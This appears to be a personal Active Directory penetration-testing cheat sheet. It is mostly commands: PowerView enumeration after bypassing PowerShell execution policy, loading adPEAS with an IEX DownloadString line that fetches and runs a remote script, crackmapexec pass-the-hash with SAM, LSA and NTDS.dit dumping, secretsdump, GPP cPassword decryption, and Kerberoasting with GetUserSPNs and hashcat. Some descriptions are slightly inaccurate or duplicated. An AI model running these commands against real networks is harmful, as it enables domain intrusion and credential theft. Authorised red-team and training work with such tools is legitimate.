 # PowerView
```powershell
# First we  need to shutdown execution policy using powershell
powershell -ep (or -ExecutionPolicy ) bypass
. .\ PowerView.ps1
Get-NetDomain # prints info about DC
Get-NetDomainController # points at DC 
Get-DomainPolicy # shows policies*
(Get-DomainPolicy)."system access" # More info about policies 
Get-ComputerInfo #Prints all info about the system 
Get-DomainComputer COMPUTER_NAME # check for computer on domain

```


# adPEAS 
https://github.com/61106960/adPEAS

start using one of the following:
```
Import-Module .\adPEAS.ps1
```
or
```
. . \adPEAS.ps1
```
or
```
gc -raw .\adPEAS.ps1 | iex
```
or
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')
```

after starting adpeas we can then start enumerating 
start adPEAS with all enumeration modules and enumerate the domain the logged-on user and computer is connected to.

```
Invoke-adPEAS
```

Start adPEAS with all enumeration modules and enumerate the domain 'contoso.com'.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the domain controller 'dc1.contoso.com' for almost all enumeration requests.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the passed PSCredential object during enumeration.
```
$SecPassword = ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('contoso\johndoe', $SecPassword)
Invoke-adPEAS -Domain 'contoso.com' -Cred $Cred
```


Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the username 'contoso\johndoe' with password 'Passw0rd1!' during enumeration.

```
Invoke-adPEAS -Domain contoso.com -Username 'contoso\johndoe' -Password 'Passw0rd1!'
```

# crackmapexec 
#passhash 
```bash

crackmapexec smb <IP/CIDR or range> -u <user> -H <hash> --local-auth 

#passpassword
crackmapexec smb <IP/CIDR or range> -u <user> -d <domain> -p <pass> 

# flags
-u # USER
-p # PASSWORD
-H # Hash
-x # Execute a command 
--local-auth # login


# gather creds
--sam to dump sam hahses
--lsa dump lsa secrets
--ntds dump NTDS.dit
```


# secretsdump
dumping hashes and secrets in windows
```
secretsdump.py DOMAIN/USER:PASSWORD@IP
```

# In msfconsole 


## gpp / cPassword attack

- Check for gpp attack
```
smb_enum_gpp moudle 
```

# GetUserSPNs.py
For kerberoasting (Capture TGT account's hash)
hashcat -m 13100
```
GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

# gpp-decrypt
gpp-decrypt <HASH>